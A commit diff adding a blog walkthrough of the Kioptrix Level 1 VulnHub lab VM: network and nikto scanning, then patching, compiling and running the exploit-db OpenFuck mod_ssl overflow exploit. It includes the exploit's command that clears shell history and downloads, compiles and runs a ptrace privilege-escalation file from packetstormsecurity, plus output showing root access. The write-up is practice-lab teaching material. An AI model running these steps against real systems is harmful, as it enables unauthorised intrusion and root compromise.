

Before and after one commit to rkmsh/rkmsh.github.io, a Jekyll site: the page built from _posts/2019-02-23-SickOS-1.1.md, in a window 1280 px wide and 900 px high, scrolled down 11509 px. Shown: the top 892 px of the window. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; cached includes are drawn as plain includes; comment, search, counter and statistics services are not loaded; some of the changed lines change nothing that is shown; some of the changed text lies outside the part shown.

Commit message:
Adding Kioptrix_Level_1 Walkthrough

````diff
--- a/_posts/2019-02-23-SickOS-1.1.md
+++ b/_posts/2019-02-23-SickOS-1.1.md
@@ -34,7 +34,7 @@
 Let's get the ip address of the VM using 'netdiscover`.
 
 ```console
-oot@kali:~# netdiscover
+root@kali:~# netdiscover
 
 Currently scanning: Finished!   |   Screen View: Unique Hosts
 
--- /dev/null
+++ b/_posts/2019-06-20-Kioptrix_Level_1.md
@@ -0,0 +1,238 @@
+---
+layout: single
+date: 2019-06-20
+title: "Kioptrix Level: 1"
+header:
+    overlay_image: /assets/images/kioptrix_level1.png
+    caption: "[__VulnHub__](https://www.vulnhub.com/entry/kioptrix-level-1-1,22/)"
+related: true
+comments: true
+---
+
+
+Hello Everyone!, and welcome to my VulnHub VM Write-Ups!
+
+First thing first, we are going to set up our VM. You can download from [here](https://www.vulnhub.com/entry/kioptrix-level-1-1,22/).
+
+## Abot the VM:
+
+```console
+Kioptrix VM Image Challenges:
+
+This Kioptrix VM Image are easy challenges. The object of the game is to acquire root access via any means possible (except actually hacking the VM server or player). The purpose of these games are to learn the basic tools and techniques in vulnerability assessment and exploitation. There are more ways then one to successfully complete the challenges.
+```
+
+## Let's begin the fun!! stuff.
+
+```console
+root@kali:~# netdiscover
+
+Currently scanning: Finished!   |   Screen View: Unique Hosts
+
+2 Captured ARP Req/Rep packets, from 2 hosts.   Total size: 84
+ _____________________________________________________________________________
+   IP            At MAC Address     Count     Len  MAC Vendor / Hostname
+ -----------------------------------------------------------------------------
+ 192.168.1.2    [......!!!....]      1      42  Honda Electronics Co.,Ltd
+ 192.168.1.23    [......!!!....]      1      42  PCS Systemtechnik GmbH
+ ```
+
+ Our target IP is `192.168.1.23`.
+
+ Run the `nmap` scan to know the open Ports and Services.
+
+ ```console
+root@kali:~# nmap -sS -A -n 192.168.1.23
+Starting Nmap 7.70 ( https://nmap.org ) at 2019-06-20 21:20 IST
+Nmap scan report for 192.168.1.23
+Host is up (0.00068s latency).
+Not shown: 994 closed ports
+PORT      STATE SERVICE     VERSION
+22/tcp    open  ssh         OpenSSH 2.9p2 (protocol 1.99)
+| ssh-hostkey:
+|   1024 b8:74:6c:db:fd:8b:e6:66:e9:2a:2b:df:5e:6f:64:86 (RSA1)
+|   1024 8f:8e:5b:81:ed:21:ab:c1:80:e1:57:a3:3c:85:c4:71 (DSA)
+|_  1024 ed:4e:a9:4a:06:14:ff:15:14:ce:da:3a:80:db:e2:81 (RSA)
+|_sshv1: Server supports SSHv1
+80/tcp    open  http        Apache httpd 1.3.20 ((Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b)
+| http-methods:
+|_  Potentially risky methods: TRACE
+|_http-server-header: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
+|_http-title: Test Page for the Apache Web Server on Red Hat Linux
+111/tcp   open  rpcbind     2 (RPC #100000)
+| rpcinfo:
+|   program version   port/proto  service
+|   100000  2            111/tcp  rpcbind
+|   100000  2            111/udp  rpcbind
+|   100024  1          32768/tcp  status
+|_  100024  1          32768/udp  status
+139/tcp   open  netbios-ssn Samba smbd (workgroup: MYGROUP)
+443/tcp   open  ssl/https   Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
+|_http-server-header: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
+|_http-title: 400 Bad Request
+|_ssl-date: 2019-06-20T19:41:22+00:00; +3h50m34s from scanner time.
+| sslv2:
+|   SSLv2 supported
+|   ciphers:
+|     SSL2_DES_192_EDE3_CBC_WITH_MD5
+|     SSL2_RC2_128_CBC_WITH_MD5
+|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
+|     SSL2_RC4_128_WITH_MD5
+|     SSL2_RC4_64_WITH_MD5
+|     SSL2_RC4_128_EXPORT40_WITH_MD5
+|_    SSL2_DES_64_CBC_WITH_MD5
+32768/tcp open  status      1 (RPC #100024)
+MAC Address: 08:00:27:FD:2B:42 (Oracle VirtualBox virtual NIC)
+Device type: general purpose
+Running: Linux 2.4.X
+OS CPE: cpe:/o:linux:linux_kernel:2.4
+OS details: Linux 2.4.9 - 2.4.18 (likely embedded)
+Network Distance: 1 hop
+
+Host script results:
+|_clock-skew: mean: 3h50m33s, deviation: 0s, median: 3h50m33s
+|_nbstat: NetBIOS name: KIOPTRIX, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
+|_smb2-time: Protocol negotiation failed (SMB2)
+
+TRACEROUTE
+HOP RTT     ADDRESS
+1   0.68 ms 192.168.1.23
+
+OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
+Nmap done: 1 IP address (1 host up) scanned in 271.72 seconds
+```
+
+Taking a look at the Nmap scan we see that we have TCP/22 Open (SSH) and TCP/80 Open (HTTP).
+
+Run the 'nikto' scan.
+
+```console
+root@kali:~# nikto -h 192.168.1.23
+- Nikto v2.1.6
+---------------------------------------------------------------------------
++ Target IP:          192.168.1.23
++ Target Hostname:    192.168.1.23
++ Target Port:        80
++ Start Time:         2019-06-20 21:33:43 (GMT5.5)
+---------------------------------------------------------------------------
++ Server: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
++ Server leaks inodes via ETags, header found with file /, inode: 34821, size: 2890, mtime: Thu Sep  6 08:42:46 2001
++ The anti-clickjacking X-Frame-Options header is not present.
++ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
++ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
++ OSVDB-27487: Apache is vulnerable to XSS via the Expect header
++ OpenSSL/0.9.6b appears to be outdated (current is at least 1.0.1j). OpenSSL 1.0.0o and 0.9.8zc are also current.
++ mod_ssl/2.8.4 appears to be outdated (current is at least 2.8.31) (may depend on server version)
++ Apache/1.3.20 appears to be outdated (current is at least Apache/2.4.12). Apache 2.0.65 (final release) and 2.2.29 are also current.
++ Allowed HTTP Methods: GET, HEAD, OPTIONS, TRACE
++ OSVDB-877: HTTP TRACE method is active, suggesting the host is vulnerable to XST
++ OSVDB-838: Apache/1.3.20 - Apache 1.x up 1.2.34 are vulnerable to a remote DoS and possible code execution. CAN-2002-0392.
++ OSVDB-4552: Apache/1.3.20 - Apache 1.3 below 1.3.27 are vulnerable to a local buffer overflow which allows attackers to kill any process on the system. CAN-2002-0839.
++ OSVDB-2733: Apache/1.3.20 - Apache 1.3 below 1.3.29 are vulnerable to overflows in mod_rewrite and mod_cgi. CAN-2003-0542.
++ mod_ssl/2.8.4 - mod_ssl 2.8.7 and lower are vulnerable to a remote buffer overflow which may allow a remote shell. http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2002-0082, OSVDB-756.
++ ///etc/hosts: The server install allows reading of any system file by adding an extra '/' to the URL.
++ OSVDB-682: /usage/: Webalizer may be installed. Versions lower than 2.01-09 vulnerable to Cross Site Scripting (XSS). http://www.cert.org/advisories/CA-2000-02.html.
++ OSVDB-3268: /manual/: Directory indexing found.
++ OSVDB-3092: /manual/: Web server manual found.
++ OSVDB-3268: /icons/: Directory indexing found.
++ OSVDB-3233: /icons/README: Apache default file found.
++ OSVDB-3092: /test.php: This might be interesting...
++ 8345 requests: 0 error(s) and 21 item(s) reported on remote host
++ End Time:           2019-06-20 21:34:12 (GMT5.5) (29 seconds)
+---------------------------------------------------------------------------
++ 1 host(s) tested
+```
+
+`nikto` finds out that the version of mod_ssl is vulnerable to a Remote Buffer Overflow which may allow a Remote Shell.
+
+After a little research work...an Exploit is found in [exploit-db.com](https://www.exploit-db.com/exploits/764) named `OpenFuckV2.c`.
+Download the exploit and it will be saved as `764.c`.
+
+Now we have to edit the exploit a little bit.
+
+## Add the following headers.
+```console
+#include <openssl/rc4.h>
+#include <openssl/md4.h>
+```
+
+## Update the URL in the Command.
+```console
+#define COMMAND2 "unset HISTFILE; cd /tmp; wget http://packetstormsecurity.nl/0304-exploits/ptrace-kmod.c; gcc -o p ptrace-kmod.c; rm ptrace-kmod.c; ./p; \n"
+```
+## To
+```console
+http://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c
+```
+
+We can also do it from our attacking machine after downloading it locally.
+
+## Installing the libssl-dev lib
+With the newer version of `libssl-dev` it is not compatible.
+```console
+root@kali:~# apt-get install libssl1.0-dev
+```
+
+## Update declaration of variables.
+On line 961: Change
+```console
+unsigned char *p, *end;
+```
+Add `const` and Update to
+```console
+const unsigned char *p, *end;
+```
+Save the file and compile it
+```console
+root@kali:~# gcc -o exploit 764.c -lcrypto
+```
+
+Now run the exploit
+```console
+root@kali:~./exploit 0x6b 192.168.1.23 443 -c 40
+
+*******************************************************************
+* OpenFuck v3.0.32-root priv8 by SPABAM based on openssl-too-open *
+*******************************************************************
+* by SPABAM    with code of Spabam - LSD-pl - SolarEclipse - CORE *
+* #hackarena  irc.brasnet.org                                     *
+* TNX Xanthic USG #SilverLords #BloodBR #isotk #highsecure #uname *
+* #ION #delirium #nitr0x #coder #root #endiabrad0s #NHC #TechTeam *
+* #pinchadoresweb HiTechHate DigitalWrapperz P()W GAT ButtP!rateZ *
+*******************************************************************
+
+Connection... 40 of 40
+Establishing SSL connection
+cipher: 0x4043808c   ciphers: 0x80f8050
+Ready to send shellcode
+Spawning shell...
+bash: no job control in this shell
+bash-2.05$
+exploits/ptrace-kmod.c; gcc -o p ptrace-kmod.c; rm ptrace-kmod.c; ./p; net/0304-
+--17:06:05--  http://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c
+           => `ptrace-kmod.c'
+Connecting to dl.packetstormsecurity.net:80... connected!
+HTTP request sent, awaiting response... 301 Moved Permanently
+Location: https://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c [following]
+--17:06:06--  https://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c
+           => `ptrace-kmod.c'
+Connecting to dl.packetstormsecurity.net:443... connected!
+HTTP request sent, awaiting response... 200 OK
+Length: 3,921 [text/x-csrc]
+
+    0K ...                                                   100% @   1.25 MB/s
+
+17:06:09 (957.28 KB/s) - `ptrace-kmod.c' saved [3921/3921]
+
+/usr/bin/ld: cannot open output file p: Permission denied
+collect2: ld returned 1 exit status
+```
+
+And We got the remote shell
+```console
+whoami
+root
+```
+This was a easy. Only some Research work needed.
+
+## Thanks for Learning with me. Keep Moving!!!
````
Also changed, not shown: assets/images/avatar.jpeg (deleted), assets/images/kioptrix_level1.png (added).
